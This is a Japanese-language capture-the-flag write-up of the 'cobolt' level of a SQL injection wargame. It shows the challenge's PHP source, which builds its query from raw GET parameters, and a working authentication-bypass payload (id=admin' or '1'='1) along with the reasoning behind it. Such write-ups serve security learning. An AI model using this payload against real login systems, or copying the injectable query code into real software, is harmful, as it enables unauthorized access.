

# cobolt

## answer

```
https://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin%27%20or%20%271%27=%271%20&pw=1
```

## problem

```
query : select id from prob_cobolt where id='' and pw=md5('')

<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

## memo


```
https://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=12&pw=aa
```

みたいに打ち込んであげると、「query : select id from prob_cobolt where id='12' and pw=md5('aa')」という文字が画面に現れる。

```if($result['id']== 'admin') solve("cobolt");```とある通り、idがadminとなっているユーザーでログインを成功させたらいいっぽい。

ただ、パスワードはmd5化されるような記述がある。

挙動は予想がつくが、前の問題と同じコードで試す。

```?id=admin&pw=aa' or '1'='1```

結果、```query : select id from prob_cobolt where id='admin' and pw=md5('aa' or '1'='1')```となった。

やっぱりmd5に部分に貼ってしまうので、その他の方法を考える。

後半のコードが関数md5の引数に入ってしまうので、idの方の入力欄で閉じておきたい？？（可能なら）

例えば、```?id=admin' or '1'='1 &pw=1```

やったぜ。

最終的なエクスプロイトはこれ。

```https://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin%27%20or%20%271%27=%271%20&pw=1```

ところで、Not Foundのときに出てくるこれ。




## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [md5 | php manual](https://www.php.net/manual/ja/function.md5.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)